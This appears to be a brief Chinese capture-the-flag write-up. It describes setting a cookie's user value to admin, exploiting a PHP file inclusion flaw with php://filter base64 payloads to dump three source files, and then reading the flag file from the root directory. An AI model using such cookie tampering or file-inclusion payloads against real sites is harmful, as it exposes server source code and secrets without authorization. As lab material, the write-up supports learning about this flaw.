

修改Cookie中的user值为admin
然后浏览器会跳转到新的页面

很显然,这边是一个文件包含漏洞,通过输入的参数,包含文件.
由此,我们可以通过php://filter协议读取源码
file=php://filter/read=convert.base64-encode/resource=index.php
file=php://filter/read=convert.base64-encode/resource=read_file.php
file=php://filter/read=convert.base64-encode/resource=no_flag_here.php
就可以获得三个文件的源码
在no_flag_here.php中提示flag在根目录,使用提供的scandir来浏览根目录,获得flag文件名,通过php://filter读取flag